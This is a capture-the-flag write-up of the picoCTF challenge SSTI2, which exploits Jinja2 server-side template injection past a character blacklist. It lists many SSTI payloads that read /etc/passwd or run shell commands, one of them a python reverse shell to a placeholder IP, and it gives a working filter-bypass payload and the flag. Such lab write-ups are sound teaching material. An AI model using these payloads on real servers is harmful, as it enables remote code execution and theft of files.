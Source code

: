 # SSTI2

AUTHOR: VENAX

Description

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

Additional details will be available after launching your challenge instance.

Hints:

1. Server Side Template Injection
2. Why is blacklisting characters a bad idea to sanitize input?

This challenge is the continuation of SSTI1, based on the title we could already know it is related to Server Side Template Injection attack. However, this challenge mentioned it has blocked certain characters.

![1000170803](https://github.com/user-attachments/assets/718192db-09ba-4b1c-b002-11bc159ea19e)

We could not identified filtering used based on the website source code:

```java
<!doctype html>
      <title>SSTI2</title>
<h1> Home </h1>
<p> I built a cool website that lets you announce whatever you want!* </p><form action="/" method="POST"> 
What do you want to announce: <input name="content" id="announce"> <button type="submit"> Ok </button>
      </form>
      <p style="font
size:10px;position:fixed;bottom:10px;left:10px;"> *Announcements may only reach yourself </p>
```

We already know the website is using Jinja2 as template engine based on challenge SSTI1.

{{7*’7’}} returns 7777777 → Jinja2

We will brute force to identify the correct payload based on Jinja2:

```jsx
{{4*4}}
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
{{config.items()}}
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
{% for key, value in config.iteritems() %}<dt>{{ key|e }}</dt><dd>{{ value|e }}</dd>{% endfor %}
{{ request }}
{{self}}
{{app.request.query.filter(0,0,1024,{'options':'system'})}}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
{{self._TemplateReference__context.cycler.__init__.__globals__.os}}
{{self._TemplateReference__context.joiner.__init__.__globals__.os}}
{{self._TemplateReference__context.namespace.__init__.__globals__.os}}
{{cycler.__init__.__globals__.os}}
{{joiner.__init__.__globals__.os}}
{{namespace.__init__.__globals__.os}}
```

We successfully identified the correct payload that successfully executed on the server:

![image](https://github.com/user-attachments/assets/706a2f6f-844d-4298-8ba8-fe5d4c8a4d4d)


This is the full payload:

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

All we need to do know is to change the id to cat flag:

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}

What the code does?

- \x5f is the hex encoding of _ (underscore)

The payload first sends the request and gives access to Flask application interface. It allow us to gain access to global variables. Next, it access global and builtins that allow access to builtin python functions such as import and open. import os helps load the os module that allows file manipulation and file access. os.popen(’cat flag’) will get the flag and read() will get output of the command and displays it. 

And we get the flag:

**picoCTF{sst1_f1lt3r_byp4ss_8b534b82}**
